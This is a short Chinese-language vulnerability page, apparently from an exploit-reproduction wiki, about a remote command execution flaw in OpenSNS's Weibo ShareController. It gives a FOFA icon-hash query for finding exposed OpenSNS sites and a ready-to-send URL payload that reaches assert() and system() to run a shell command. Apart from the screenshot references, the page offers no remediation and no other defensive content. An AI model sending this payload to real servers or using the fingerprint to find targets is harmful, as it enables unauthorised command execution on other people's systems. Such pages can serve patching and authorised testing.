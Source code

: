 # OpenSNS Application ShareController.class.php 远程命令执行漏洞

## 漏洞描述

OpenSNS 存在远程命令执行漏洞，攻击者通过漏洞发送特定的请求包可以执行任意命令

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## FOFA

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210629150345721.png)

存在漏洞的文件 **Application/Weibo/Controller/ShareController.class.php**

![img](../../../.vuepress/public/img/1634372349493-09076c1f-7406-46af-b4b4-9cabb771a8ec.png)

发送Payload

```plain
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule-%3E_validationFieldItem%26id[4]=function%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(ver)
```



![img](../../../.vuepress/public/img/image-20210629150412729.png)

